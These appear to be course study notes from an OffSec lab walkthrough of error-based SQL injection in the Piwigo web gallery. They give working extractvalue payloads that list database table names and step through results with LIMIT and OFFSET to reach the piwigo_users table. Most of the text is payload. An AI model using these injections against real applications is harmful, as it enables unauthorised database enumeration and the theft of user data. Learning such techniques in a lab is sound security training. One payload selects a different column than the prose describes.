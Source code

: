 Now that we know the name of the schema used by the application, we can update our payload to extract table names. We'll need to instruct the subqueries to select the "table_name" column from _information_schema.tables_ and include a WHERE clause in the inner-most subquery to limit the results to the "piwigo" schema.

```sql
01  asc, extractvalue('',concat('>',(
02    select group_concat(table_schema) 
03    from (
04      select table_schema from information_schema.tables 
05      where table_schema='piwigo')
07    as foo)
08    )
09  )
```
without lines
```sql

asc, extractvalue('',concat('>',(select group_concat(table_name) from (select table_name from information_schema.tables where table_schema='piwigo') as foo)))
```
However, when we submit this payload to the server, we encounter an issue with the response.
![[Pasted image 20240905215938.png]]
While our payload worked, the output of the XPATH error only displays 32 characters. This hinders our ability to extract information, but we can adapt our payload to iterate through the potential values. In fact, the query we are injecting into has an example of the _LIMIT_[6](https://portal.offsec.com/courses/web-200-28380/learning/sql-injection-30958/case-study-error-based-sqli-in-piwigo-31287/exploiting-error-based-sql-injection-31021#fn-local_id_73-6) syntax we want to copy. When used this way, the first number indicates how many records to skip and the second number indicates how many to return. The example from this query will return the first ten rows.

We can also use the _OFFSET_ keyword to specify the starting offset value along with a LIMIT. We'll use this syntax and update our payload to iterate through the table names:

```sql
asc, extractvalue('',concat('>',(
	select group_concat(table_name) 
	from (
		select table_name 
		from information_schema.tables 
		where table_schema='piwigo' 
		limit 2 offset 2) 
	as foo)
	)
)
```
one liner
```sql
asc, extractvalue('',concat('>',(select group_concat(table_name) from (select table_name from information_schema.tables where table_schema='piwigo' limit 2 offset 2) as foo)))
```

![[Pasted image 20240905220241.png]]
Since we are limiting the potential output to two tables at a time, we will need to submit this payload multiple times. Let's update the offset value each time to iterate through all potential table names. Much like we did while enumerating the web application, we're searching for any tables that might contain interesting or sensitive data. Eventually, we will identify the _piwigo_users_ table with an offset of 32.
